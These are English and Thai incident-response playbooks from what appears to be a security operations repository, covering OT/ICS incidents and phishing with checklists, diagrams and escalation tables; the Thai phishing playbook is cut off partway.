| DNS zone transfer | dig axfr | DNS query logs |

### Normal vs Suspicious Scanning

| Attribute | Normal (IT Admin) | Suspicious (Threat) |
|:---|:---|:---|
| Source | Known mgmt subnet | User workstation |
| Time | Business hours | After hours |
| Scope | Specific subnet | Entire network |
| Tools | Authorized scanner | Unknown binary |

## อ้างอิง

- [MITRE ATT&CK T1046 — Network Service Discovery](https://attack.mitre.org/techniques/T1046/)


---

## File: 05_Incident_Response/Playbooks/OT_ICS_Incident.en.md

# Playbook: OT/ICS Security Incident

**ID**: PB-33
**Severity**: Critical | **Category**: Operational Technology
**MITRE ATT&CK for ICS**: [T0813](https://attack.mitre.org/techniques/T0813/) (Denial of Control), [T0831](https://attack.mitre.org/techniques/T0831/) (Manipulation of Control)
**Trigger**: OT-IDS alert (Claroty/Nozomi/Dragos), IT-OT boundary firewall alert, HMI anomaly, Safety system activation, Physical process deviation

> 🚨 **ABSOLUTE PRIORITY**: Physical safety of personnel, equipment, and environment takes precedence over ALL investigation activities. If any risk to life — activate Safety Instrumented Systems (SIS) IMMEDIATELY.

### Purdue Model Layers

```mermaid
graph TD
    L5["🌐 L5: Enterprise"] --> L4["📊 L4: Business Planning"]
    L4 --> L35["🔥 DMZ"]
    L35 --> L3["🖥️ L3: Operations"]
    L3 --> L2["📺 L2: Supervisory HMI/SCADA"]
    L2 --> L1["⚙️ L1: Control PLC/RTU"]
    L1 --> L0["🏭 L0: Physical Process"]
    style L35 fill:#e74c3c,color:#fff
    style L0 fill:#27ae60,color:#fff
```

### Emergency Shutdown Flow

```mermaid
sequenceDiagram
    participant SOC
    participant OT as OT Engineer
    participant Plant as Plant Operator
    participant Safety
    SOC->>OT: 🚨 IT/OT bridge breach detected
    OT->>Plant: Assess physical process impact
    Plant->>Safety: Manual override ready?
    Safety-->>Plant: ✅ Ready
    OT->>SOC: Safe to isolate IT↔OT junction
    SOC->>SOC: Block DMZ traffic
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 OT/ICS Anomaly"] --> Safety{"⚠️ Physical Safety Risk?"}
    Safety -->|YES| SIS["🔴 ACTIVATE SAFETY SYSTEMS"]
    Safety -->|No| Type{"📋 Incident Type?"}
    SIS --> IsolateOT["🔌 Isolate OT Network"]
    Type -->|IT→OT Crossover| Cross["🦠 Malware Reached OT"]
    Type -->|Direct OT Attack| Direct["🎯 PLC/HMI Manipulation"]
    Type -->|Reconnaissance| Recon["🔍 OT Protocol Scanning"]
    Type -->|Ransomware in OT| Ransom["💀 Ransomware on HMI/EWS"]
    Cross --> IsolateOT
    Direct --> IsolateOT
    Ransom --> IsolateOT
    Recon --> Monitor["👁️ Enhanced Monitoring + Alert OT Team"]
```

---

## 1. Analysis

### 1.1 OT Incident Categories

| Category | Examples | Severity |
|:---|:---|:---|
| **IT→OT crossover** | WannaCry/NotPetya reaching HMIs | 🔴 Critical |
| **Direct OT attack** | Stuxnet, TRITON, Industroyer | 🔴 Critical |
| **OT ransomware** | Ransomware on HMI/engineering workstation | 🔴 Critical |
| **OT reconnaissance** | Modbus/OPC scanning from IT network | 🟠 High |
| **Unauthorized access** | Unauthorized remote access to PLC | 🔴 Critical |
| **Configuration change** | Unauthorized PLC logic modification | 🔴 Critical |
| **Safety system attack** | TRITON-style SIS compromise | 🔴 CRITICAL |

### 1.2 Purdue Model Level Assessment

| Level | Systems | Compromised? | Safety Impact |
|:---|:---|:---|:---|
| **Level 5** | Enterprise network | ☐ | Indirect |
| **Level 4** | IT/OT DMZ | ☐ | Gateway |
| **Level 3** | SCADA, Historians | ☐ | Process visibility |
| **Level 2** | HMI, Engineering WS | ☐ | Process control |
| **Level 1** | PLC, RTU, DCS | ☐ | 🔴 Direct process |
| **Level 0** | Physical process, sensors | ☐ | 🔴 Safety critical |
| **SIS** | Safety Instrumented Systems | ☐ | 🔴 Life safety |

### 1.3 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| Affected systems (PLC, HMI, SCADA, EWS) | OT asset inventory | ☐ |
| Did threat cross IT-OT boundary? | Firewall/IDS logs | ☐ |
| OT protocol anomalies (Modbus, DNP3, OPC UA, EtherNet/IP) | OT-IDS (Claroty/Nozomi/Dragos) | ☐ |
| PLC logic changes? Compare to golden baseline | PLC programming software | ☐ |
| Safety system status | SIS diagnostic | ☐ |
| Physical process deviations | Historian, SCADA | ☐ |
| Engineering workstation status | Local inspection | ☐ |
| Remote access sessions (jump host, VPN) | Access logs | ☐ |

---

## 2. Containment

### 2.1 Safety Response (IF physical risk)

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | **Activate SIS / Emergency Shutdown** | OT Engineer / Safety | ☐ |
| 2 | **Switch to manual control** if automated control compromised | OT Engineer | ☐ |
| 3 | **Evacuate** if environmental/chemical/physical hazard | Safety Officer | ☐ |

### 2.2 Network Containment

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Isolate IT-OT boundary** — disable/restrict DMZ firewall rules | ☐ |
| 2 | **Segment OT zones** — isolate affected Purdue levels | ☐ |
| 3 | **Disable remote access** — VPN, jump hosts, TeamViewer | ☐ |
| 4 | **DO NOT reboot/patch OT devices** during active incident | ☐ |
| 5 | **Capture PCAP** on OT network — DO NOT install agents on PLCs | ☐ |

### 2.3 Critical Rules

| ❌ DO NOT | ✅ DO |
|:---|:---|
| Reboot PLCs/RTUs during incident | Capture network traffic passively |
| Install agents/AV on OT devices | Use out-of-band communication |
| Patch OT systems without OT engineer | Photograph HMI screens |
| Apply IT playbook directly to OT | Engage OT vendor support |

---

## 3. Eradication

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Restore PLC programs from **offline golden baseline** | OT Engineer | ☐ |
| 2 | Validate PLC ladder logic / function blocks | OT Engineer | ☐ |
| 3 | Verify firmware integrity on PLCs and RTUs | OT Engineer + Vendor | ☐ |
| 4 | Rotate ALL OT credentials (including defaults!) | OT + Security | ☐ |
| 5 | Clean/rebuild engineering workstations and HMIs | OT + IT | ☐ |
| 6 | Address IT-side root cause (malware, compromised jump host) | SOC | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Staged restart** with OT engineers supervising | ☐ |
| 2 | Validate all safety systems operational | ☐ |
| 3 | Compare process values to baseline | ☐ |
| 4 | Harden IT-OT firewall rules (allowlist only) | ☐ |
| 5 | Deploy OT-IDS if not present (Claroty, Nozomi, Dragos) | ☐ |
| 6 | Implement PLC change detection and monitoring | ☐ |
| 7 | Disable unnecessary remote access | ☐ |
| 8 | Monitor OT network for 30 days | ☐ |

---

## 5. Important Contacts

| Role | When to Engage | Contact |
|:---|:---|:---|
| **OT/Plant Engineer** | Immediately — ALL OT incidents | _______ |
| **Safety Officer** | Any physical safety risk | _______ |
| **PLC/SCADA Vendor** | Firmware validation, logic restoration | _______ |
| **Regulator** | Critical infrastructure (energy, water, transport) | _______ |
| **ICS-CERT** | Nation-state or sophisticated attack | _______ |

---

## 6. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Compromised OT asset (PLC/HMI/SCADA) | | OT inventory |
| Malicious OT protocol commands | | OT-IDS / PCAP |
| IT-OT boundary breach details | | Firewall / IDS |
| Modified PLC logic (diff) | | PLC comparison |
| Remote access sessions | | Jump host logs |
| Malware samples (IT-side) | | EDR |

---

## 7. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| Physical safety risk | Safety Officer + Plant Manager immediately |
| PLC logic modified | OT Vendor + CISO |
| Safety system (SIS) targeted | CISO + Regulator + National CERT |
| Critical infrastructure affected | Government regulator |
| Multiple facilities affected | Executive team + National CERT |
| Nation-state indicators | Law enforcement + ICS-CERT |

---

### OT/IT Convergence Risks

```mermaid
graph TD
    IT["🏢 IT Network"] --> DMZ["🔒 IT/OT DMZ"]
    DMZ --> OT["🏭 OT Network"]
    OT --> SCADA["📊 SCADA/HMI"]
    OT --> PLC["⚙️ PLC/RTU"]
    IT -.->|❌ No direct access| PLC
    DMZ --> Historian["📋 Data Historian"]
    style IT fill:#3498db,color:#fff
    style OT fill:#f39c12,color:#fff
    style PLC fill:#e74c3c,color:#fff
```

### Safety System Decision

```mermaid
sequenceDiagram
    participant SOC
    participant OT_Eng as OT Engineer
    participant SIS as Safety System
    participant Management
    SOC->>OT_Eng: 🚨 OT anomaly detected
    OT_Eng->>SIS: Check safety system status
    SIS-->>OT_Eng: ✅ Normal
    OT_Eng->>SOC: Safe to investigate
    SOC->>Management: Situation update
    Note over SIS: ❌ Never disable safety system!
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| OT/ICS Network Anomaly Detection | [net_ot_ics_anomaly.yml](../../08_Detection_Engineering/sigma_rules/net_ot_ics_anomaly.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-03 Malware Infection](Malware_Infection.en.md)
- [PB-02 Ransomware](Ransomware.en.md)

## References

- [MITRE ATT&CK for ICS](https://attack.mitre.org/matrices/ics/)
- [NIST SP 800-82r3 — Guide to OT Security](https://csrc.nist.gov/publications/detail/sp/800-82/rev-3/final)
- [IEC 62443 — Industrial Cybersecurity](https://www.iec.ch/cyber-security)
- [CISA — ICS-CERT Advisories](https://www.cisa.gov/topics/industrial-control-systems)


---

## File: 05_Incident_Response/Playbooks/OT_ICS_Incident.th.md

# Playbook: OT/ICS Security Incident

**ID**: PB-33
**ระดับความรุนแรง**: วิกฤต | **หมวดหมู่**: ความปลอดภัย OT/ICS
**MITRE ICS**: [T0813](https://attack.mitre.org/techniques/T0813/) (Denial of Control), [T0831](https://attack.mitre.org/techniques/T0831/) (Manipulation of Control)
**ทริกเกอร์**: OT-IDS alert (Claroty/Nozomi/Dragos), IT-OT firewall alert, HMI anomaly, Safety system activation

> 🚨 **ลำดับสำคัญสูงสุด**: ความปลอดภัยทางกายภาพของบุคลากร อุปกรณ์ และสิ่งแวดล้อม มาก่อนทุกอย่าง


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน IT/OT network segmentation
- [ ] อัพเดท asset inventory สำหรับ OT devices
- [ ] ทบทวน remote access policies สำหรับ OT
- [ ] ประสาน vendor สำหรับ firmware/patch updates
- [ ] จัด tabletop exercise สำหรับ OT incident scenarios
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Purdue Model

```mermaid
graph TD
    L5["🌐 L5: Enterprise Network"] --> L4["🔒 L4: IT-OT DMZ"]
    L4 --> L3["📊 L3: SCADA/Historian"]
    L3 --> L2["🖥️ L2: HMI/Engineering WS"]
    L2 --> L1["⚙️ L1: PLC/RTU/DCS"]
    L1 --> L0["🏭 L0: Physical Process"]
    L0 -.-> SIS["🛑 SIS: Safety System"]
    style L5 fill:#3498db,color:#fff
    style L4 fill:#f39c12,color:#fff
    style L3 fill:#e67e22,color:#fff
    style L1 fill:#e74c3c,color:#fff
    style L0 fill:#c0392b,color:#fff
    style SIS fill:#ff0000,color:#fff
```

### ผังขั้นตอน Emergency Shutdown

```mermaid
sequenceDiagram
    participant OT_IDS as OT-IDS
    participant SOC
    participant OT_Eng as OT Engineer
    participant SIS
    participant Plant as Plant Manager
    OT_IDS->>SOC: 🚨 PLC logic change detected
    SOC->>OT_Eng: แจ้ง OT Engineer ทันที
    OT_Eng->>OT_Eng: ประเมินความเสี่ยงทางกายภาพ
    OT_Eng->>SIS: เปิด Emergency Shutdown
    OT_Eng->>Plant: แจ้งสถานะ + อพยพ (ถ้าจำเป็น)
    SOC->>SOC: ตัด IT-OT DMZ
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 OT/ICS Alert"] --> Safety{"⚠️ มีภัยทางกายภาพ?"}
    Safety -->|ใช่| ESD["🛑 Emergency Shutdown / SIS"]
    Safety -->|ไม่| Assess["📊 ประเมิน Purdue Level"]
    ESD --> Manual["🔧 สลับเป็น Manual Control"]
    Manual --> Assess
    Assess --> Level{"📍 ระดับ?"}
    Level -->|L3-L5 IT/OT DMZ| IT["🖥️ IT-side Containment"]
    Level -->|L1-L2 PLC/HMI| OT["🏭 OT Engineer Required"]
    Level -->|L0 Physical| DANGER["🔴🔴 Safety-Critical"]
```

---

## 1. การวิเคราะห์

### 1.1 ระดับ Purdue Model

| ระดับ | ระบบ | ถูกบุกรุก? | ผู้รับผิดชอบ |
|:---|:---|:---|:---|
| **L5** | Enterprise Network, ERP | ☐ | SOC/IT |
| **L4** | IT-OT DMZ, Data Historian | ☐ | SOC/IT + OT |
| **L3** | SCADA Server, Historian | ☐ | OT Engineer |
| **L2** | HMI, Engineering WS | ☐ | OT Engineer |
| **L1** | PLC, RTU, DCS Controller | ☐ | OT Engineer + Vendor |
| **L0** | Physical Process (valve, motor) | ☐ | Plant Engineer |
| **SIS** | Safety Instrumented System | ☐ | Safety Engineer |

### 1.2 ประเภทเหตุการณ์ OT

| ประเภท | ตัวอย่าง | ความรุนแรง |
|:---|:---|:---|
| **IT → OT lateral movement** | Ransomware ข้าม DMZ | 🔴 วิกฤต |
| **PLC logic change** | Unauthorized logic upload | 🔴 วิกฤต |
| **HMI manipulation** | เปลี่ยนค่า setpoint | 🔴 วิกฤต |
| **SIS tampering** (TRITON-style) | Safety system ถูกปิด | 🔴🔴 Life-threatening |
| **OT malware** | INDUSTROYER, PIPEDREAM | 🔴 วิกฤต |
| **Rogue device** | อุปกรณ์แปลกบน OT network | 🟠 สูง |
| **Remote access abuse** | VPN/jump host ถูกบุกรุก | 🔴 สูง |

### 1.3 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ภัยคุกคามข้าม IT → OT? | Firewall logs | ☐ |
| PLC logic ถูกเปลี่ยน? | OT-IDS / PLC comparison | ☐ |
| Safety System (SIS) ปกติ? | SIS panel / OT engineer | ☐ |
| HMI แสดงค่าผิดปกติ? | HMI / operator | ☐ |
| OT protocol anomalies? (Modbus/OPC/EtherNet/IP) | OT-IDS | ☐ |
| Remote access — มีการเชื่อมต่อใหม่? | VPN / jump host logs | ☐ |
| อุปกรณ์แปลกบน OT network? | OT-IDS asset inventory | ☐ |

---

## 2. การควบคุม

### ⚡ Safety First (หากมีความเสี่ยงทางกายภาพ)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **เปิด SIS / Emergency Shutdown** ตาม procedure | ☐ |
| 2 | **สลับเป็น manual control** | ☐ |
| 3 | **อพยพบุคลากร** (ถ้าจำเป็น) | ☐ |

### 🔒 Network Containment

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **ตัด IT-OT DMZ** (แยก IT / OT networks) | ☐ |
| 2 | **ปิด remote access** ทั้งหมด (VPN, jump host, TeamViewer) | ☐ |
| 3 | **จับ PCAP** บน OT network (**ห้ามติดตั้ง agent บน PLC!**) | ☐ |

> ⛔ **ห้ามทำ**: Reboot PLC, Patch OT devices, Install software บน OT, scan OT network

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | คืนค่า PLC จาก **golden baseline** (verified offline backup) | ☐ |
| 2 | ตรวจสอบ **firmware integrity** (PLC, RTU) | ☐ |
| 3 | หมุนเวียน OT credentials (**รวม default passwords!**) | ☐ |
| 4 | ทำความสะอาด IT-side (malware, jump host, VPN) | ☐ |
| 5 | ลบ rogue devices ออกจาก OT network | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **Staged restart** มี OT engineer ดูแลทุกขั้นตอน | ☐ |
| 2 | Deploy **OT-IDS** (Claroty / Nozomi Networks / Dragos) | ☐ |
| 3 | **IEC 62443** compliance review | ☐ |
| 4 | สร้าง **golden baseline** ใหม่สำหรับ PLC ทั้งหมด | ☐ |
| 5 | เปลี่ยน default passwords ทั้งหมด | ☐ |
| 6 | จำกัด remote access — MFA + jump host + time-limited | ☐ |

---

## 5. ผู้ติดต่อสำคัญ

| บทบาท | เมื่อไหร่ |
|:---|:---|
| **OT/Plant Engineer** | ทันที — ทุกกรณี OT |
| **Safety Officer** | หากมีความเสี่ยงทางกายภาพ |
| **PLC/SCADA Vendor** | Firmware/logic validation |
| **Regulator** | หากเป็น critical infrastructure |
| **CISO** | ทุกเหตุการณ์ OT |
| **National CERT** | Nation-state indicators |

---

### ผัง OT/IT Convergence Risks

```mermaid
graph TD
    IT["🏢 IT Network"] --> DMZ["🔒 IT/OT DMZ"]
    DMZ --> OT["🏭 OT Network"]
    OT --> SCADA["📊 SCADA/HMI"]
    OT --> PLC["⚙️ PLC/RTU"]
    IT -.->|❌ ห้ามเข้าตรง| PLC
    DMZ --> Historian["📋 Data Historian"]
    style IT fill:#3498db,color:#fff
    style OT fill:#f39c12,color:#fff
    style PLC fill:#e74c3c,color:#fff
```

### ผัง Safety System Decision

```mermaid
sequenceDiagram
    participant SOC
    participant OT_Eng as OT Engineer
    participant SIS as Safety System
    participant Management
    SOC->>OT_Eng: 🚨 OT anomaly detected
    OT_Eng->>SIS: Check safety system status
    SIS-->>OT_Eng: ✅ Normal
    OT_Eng->>SOC: Safe to investigate
    SOC->>Management: Situation update
    Note over SIS: ❌ ห้ามปิด safety system!
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| OT/ICS Network Anomaly Detection | [net_ot_ics_anomaly.yml](../../08_Detection_Engineering/sigma_rules/net_ot_ics_anomaly.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-02 Ransomware](Ransomware.th.md)
- [PB-03 มัลแวร์](Malware_Infection.th.md)

## OT/ICS Safety Priorities

| Priority | Action | Rationale |
|:---|:---|:---|
| 1 | Protect human safety | Life first |
| 2 | Preserve physical process | Prevent damage |
| 3 | Contain cyber threat | Limit spread |
| 4 | Gather evidence | Investigation |
| 5 | Restore operations | Business continuity |

### ICS Protocol Monitoring

| Protocol | Port | Monitor For |
|:---|:---|:---|
| Modbus | 502 | Unauthorized writes |
| DNP3 | 20000 | Unusual commands |
| OPC UA | 4840 | Config changes |
| BACnet | 47808 | Unauthorized access |

### IT vs OT Response Differences

| Aspect | IT | OT |
|:---|:---|:---|
| Priority | Data integrity | Physical safety |
| Patching | ASAP | Scheduled downtime |
| Isolation | Network segmentation | Physical disconnect |

## อ้างอิง

- [MITRE ATT&CK for ICS](https://attack.mitre.org/matrices/ics/)
- [NIST SP 800-82r3 — Guide to OT Security](https://csrc.nist.gov/publications/detail/sp/800-82/rev-3/final)
- [IEC 62443 — Industrial Automation Security](https://www.isa.org/standards-and-publications/isa-standards/isa-iec-62443-series-of-standards)


---

## File: 05_Incident_Response/Playbooks/Phishing.en.md

# Playbook: Phishing Response

**ID**: PB-01
**Severity**: High | **Category**: Email Security
**MITRE ATT&CK**: [T1566](https://attack.mitre.org/techniques/T1566/) (Phishing), [T1566.001](https://attack.mitre.org/techniques/T1566/001/) (Spearphishing Attachment), [T1566.002](https://attack.mitre.org/techniques/T1566/002/) (Spearphishing Link)
**Trigger**: User report, Mail filter alert, Phishing simulation, TI feed

### Phishing IR Flow

```mermaid
graph LR
    Report["📧 Report"] --> Analyze["🔍 Analyze"]
    Analyze --> Contain["🔒 Contain"]
    Contain --> Eradicate["🗑️ Eradicate"]
    Eradicate --> Recover["♻️ Recover"]
    Recover --> Lessons["📝 Lessons"]
    style Report fill:#e74c3c,color:#fff
    style Analyze fill:#f39c12,color:#fff
    style Contain fill:#e67e22,color:#fff
    style Eradicate fill:#27ae60,color:#fff
    style Recover fill:#2980b9,color:#fff
    style Lessons fill:#8e44ad,color:#fff
```

### Email Analysis Workflow

```mermaid
sequenceDiagram
    participant User
    participant SOC
    participant Mail as Mail Gateway
    participant TI as Threat Intel
    SOC->>Mail: Pull email headers + body
    SOC->>TI: Check URL/attachment hash
    TI-->>SOC: TI result (malicious/clean)
    SOC->>Mail: Search all recipients
    Mail-->>SOC: Recipient list
    SOC->>User: Notify + guidance
```

---

## Decision Flow

```mermaid
flowchart TD
    Start["📩 User Reports / Gateway Alert"] --> Header{"🔍 Analyze Headers"}
    Header -->|SPF/DKIM Pass + Known Domain| Legit["✅ Legitimate Email"]
    Header -->|SPF/DKIM Fail or Spoofed| Content{"📎 Malicious Content?"}
    Content -->|Attachment| Sandbox["🧪 Detonate in Sandbox"]
    Content -->|Link| URLCheck["🔗 Check URL Reputation"]
    Content -->|None| Social["📋 Social Engineering Only"]
    Sandbox -->|Malicious| Confirm["🚨 Confirmed Phishing"]
    Sandbox -->|Clean| FP["False Positive"]
    URLCheck -->|Malicious/Credential Harvester| Confirm
    URLCheck -->|Clean| FP
    Social -->|Credential Request| Confirm
    Social -->|Generic Spam| FP
    Confirm --> Clicked{"Did User Click/Submit?"}
    Clicked -->|No| ContainEmail["🛡️ Block & Purge Only"]
    Clicked -->|Yes, Clicked Link| ContainPartial["🛡️ Block + Monitor"]
    Clicked -->|Yes, Entered Credentials| ContainFull["🚨 Full Compromise Response"]
```

---

## 1. Analysis (Triage)

### 1.1 Header Analysis

| Check | How | Tool |
|:---|:---|:---|
| SPF result | Check `Received-SPF` header | Email header analyzer |
| DKIM signature | Verify `DKIM-Signature` validity | Email header analyzer |
| DMARC result | Check `Authentication-Results` | Email header analyzer |
| Return-Path | Compare with From address | Manual inspection |
| Received chain | Trace originating server IP | Manual + GeoIP |
| X-Originating-IP | Identify sender IP | Header inspection |

### 1.2 Content Analysis

| Item | Action | Tool |
|:---|:---|:---|
| **Sender domain** | Search reputation | VirusTotal, AbuseIPDB, WHOIS |
| **URLs** | Extract and check reputation | URLhaus, VirusTotal, urlscan.io |
| **Attachments** | Submit to sandbox (**NEVER open locally**) | Hybrid Analysis, Joe Sandbox, ANY.RUN |
| **File hash** | Check against TI feeds | VirusTotal, ThreatFox |
| **Language/tone** | Assess urgency, grammar, brand impersonation | Manual review |
| **Reply-to** | Compare with From — mismatch = suspicious | Manual inspection |

### 1.3 Scope Assessment

- [ ] How many users received this email?
- [ ] How many users clicked the link / opened the attachment?
- [ ] Any credential submissions on the landing page?
- [ ] Is this part of a targeted campaign or mass phishing?

---

## 2. Containment

### 2.1 Immediate Actions (within 15 minutes)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | Block sender email/domain in Email Gateway | M365 / Google / Proofpoint | ☐ |
| 2 | Purge email from ALL mailboxes | Search & Purge / Compliance Search | ☐ |
| 3 | Block malicious URLs at proxy/firewall | Web proxy, firewall | ☐ |
| 4 | Block file hash in EDR (if attachment) | CrowdStrike / SentinelOne | ☐ |
| 5 | Add IoCs to SIEM watchlist | SIEM TI integration | ☐ |

### 2.2 If User Clicked Link (No Credential Entry)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Scan endpoint for malware/persistence | ☐ |
| 2 | Check browser history for redirects | ☐ |
| 3 | Monitor endpoint for 24 hours | ☐ |

### 2.3 If User Entered Credentials (Full Compromise)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Force password reset immediately | ☐ |
| 2 | Revoke all active sessions/tokens | ☐ |
| 3 | Reset MFA and re-enroll | ☐ |
| 4 | Check for mailbox rules (forwarding, redirect) | ☐ |
| 5 | Check for OAuth app consents | ☐ |
| 6 | Review login history for suspicious access | ☐ |
| 7 | Cross-reference with [PB-05 Account Compromise](Account_Compromise.en.md) | ☐ |

---

## 3. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Sender Email | | Email header |
| Sender Domain | | Email header |
| Sender IP | | Received chain |
| URL(s) | | Email body |
| Landing Page IP | | DNS lookup |
| Attachment Name | | Email |
| Attachment Hash (SHA256) | | Sandbox |
| Dropped File Hash | | Sandbox |

---

## 4. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| > 10 users received the same email | SOC Lead |
| Any user entered credentials | Tier 2 + Account Security |
| Attachment confirmed as malware | Tier 2 + IR |
| Executive/VIP targeted (spear-phishing) | SOC Manager + CISO |
| Part of ongoing campaign | Threat Intel team |
| Data breach suspected | Legal + Compliance |

---

## 5. Recovery

- [ ] Unblock user account after password reset and MFA re-enrollment
- [ ] Confirm no unauthorized mailbox rules remain
- [ ] Verify no OAuth/API keys were created by attacker
- [ ] Remove user from "High Risk" monitoring after 48 hours (if clean)

---

## 6. Post-Incident

- [ ] Update email gateway rules if new pattern identified
- [ ] Submit phishing URL/domain to community blocklists
- [ ] Create/update Sigma detection rule if novel technique
- [ ] Send awareness reminder to affected users
- [ ] Document in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### Email Security Stack

```mermaid
graph LR
    Email["📧 Inbound Email"] --> SPF["📋 SPF"]
    SPF --> DKIM["🔏 DKIM"]
    DKIM --> DMARC["🛡️ DMARC"]
    DMARC --> ATP["🔍 ATP Sandbox"]
    ATP --> Inbox["📬 Deliver"]
    ATP --> Quarantine["🗑️ Quarantine"]
    style DMARC fill:#27ae60,color:#fff
    style Quarantine fill:#e74c3c,color:#fff
```

### User Report & Response

```mermaid
sequenceDiagram
    participant User
    participant PhishBtn as Report Phishing Button
    participant SOC
    participant Email_Admin as Email Admin
    User->>PhishBtn: 📧 Report suspicious email
    PhishBtn->>SOC: 🚨 Forward to SOC
    SOC->>SOC: Analyze headers + URLs
    SOC->>Email_Admin: Block sender domain
    SOC-->>User: ✅ Thanks! Phishing confirmed
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Suspicious Inbox Rule Created | [cloud_email_inbox_rule.yml](../../08_Detection_Engineering/sigma_rules/cloud_email_inbox_rule.yml) |
| Office Spawning PowerShell | [proc_office_spawn_powershell.yml](../../08_Detection_Engineering/sigma_rules/proc_office_spawn_powershell.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-05 Account Compromise](Account_Compromise.en.md)
- [PB-17 BEC](BEC.en.md)
- [Alert Tuning SOP](../../06_Operations_Management/Alert_Tuning.en.md)

## References

- [MITRE ATT&CK T1566 — Phishing](https://attack.mitre.org/techniques/T1566/)
- [CISA Phishing Guidance](https://www.cisa.gov/shields-up/phishing-preventing-email-attacks)
- [NIST SP 800-177 — Email Security](https://csrc.nist.gov/publications/detail/sp/800-177/rev-1/final)


---

## File: 05_Incident_Response/Playbooks/Phishing.th.md

# Playbook: ฟิชชิง (Phishing)

**ID**: PB-01
**ระดับความรุนแรง**: ปานกลาง/สูง | **หมวดหมู่**: ความปลอดภัยอีเมล
**MITRE ATT&CK**: [T1566.001](https://attack.mitre.org/techniques/T1566/001/) (Spearphishing Attachment), [T1566.002](https://attack.mitre.org/techniques/T1566/002/) (Spearphishing Link)
**ทริกเกอร์**: ผู้ใช้รายงาน, Mail gateway block, SIEM correlation, Phishing simulation fail

### ผัง IR สำหรับฟิชชิง

```mermaid
graph LR
    Report["📧 รายงาน"] --> Analyze["🔍 วิเคราะห์"]
    Analyze --> Contain["🔒 ควบคุม"]
    Contain --> Eradicate["🗑️ กำจัด"]
    Eradicate --> Recover["♻️ ฟื้นฟู"]
    Recover --> Lessons["📝 บทเรียน"]
    style Report fill:#e74c3c,color:#fff
    style Analyze fill:#f39c12,color:#fff
    style Contain fill:#e67e22,color:#fff
    style Eradicate fill:#27ae60,color:#fff
    style Recover fill:#2980b9,color:#fff
    style Lessons fill:#8e44ad,color:#fff
```

### ผังการวิเคราะห์อีเมล

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant SOC
    participant Mail as Mail Gateway
    participant TI as Threat Intel
    SOC->>Mail: ดึง email headers + body
    SOC->>TI: ตรวจ URL/attachment hash
    TI-->>SOC: ผลลัพธ์ TI (malicious/clean)
    SOC->>Mail: ค้นหา recipients ทั้งหมด
    Mail-->>SOC: รายชื่อ recipients
    SOC->>User: แจ้งเตือน + คำแนะนำ
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 อีเมล Phishing"] --> Action{"📧 ผู้ใช้ดำเนินการอะไร?"}
    Action -->|รายงาน ไม่คลิก| Report["✅ วิเคราะห์ + บล็อก"]
    Action -->|คลิกลิงก์| Click["🟠 ตรวจสอบเว็บไซต์"]
    Action -->|เปิดไฟล์แนบ| Attach["🔴 EDR / Sandbox"]
    Action -->|กรอก credentials| Creds["🔴 รีเซ็ตทันที"]
    Click --> Harvest{"เป็นหน้า login ปลอม?"}
    Harvest -->|ใช่| Creds
    Harvest -->|ไม่ (redirect/tracking)| Low["🟡 บล็อก URL + ติดตาม"]
    Attach --> Malware{"มัลแวร์?"}
    Malware -->|ใช่| Isolate["🔒 Isolate Host"]
    Creds --> Reset["🔐 รีเซ็ต + เพิกถอน"]
```

---

## 1. การวิเคราะห์

### 1.1 การวิเคราะห์อีเมล

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ผู้ส่ง (From / Return-Path / Envelope) | Email headers | ☐ |
| SPF / DKIM / DMARC ผ่านหรือไม่? | Email headers | ☐ |
| Display name ปลอม (spoofing)? | เปรียบเทียบกับ directory | ☐ |
| ลิงก์ใน email ชี้ไปที่ไหน? | URL analysis | ☐ |
| ไฟล์แนบ — ประเภท, hash | Sandbox / VT | ☐ |
| มีผู้ใช้อื่นได้รับอีเมลเดียวกัน? | Mail log search | ☐ |
| Urgency / pressure tactics? | Content review | ☐ |

### 1.2 ประเภท Phishing

| ประเภท | ลักษณะ | ความรุนแรง |
|:---|:---|:---|
| **Mass Phishing** | ส่งถึงทุกคน, generic content | 🟡 ปานกลาง |
| **Spearphishing** | เจาะจงบุคคล/แผนก | 🟠 สูง |
| **Whaling** | เจาะจงผู้บริหาร | 🔴 วิกฤต |
| **BEC** | ปลอม CEO/CFO, ขอโอนเงิน | 🔴 วิกฤต |
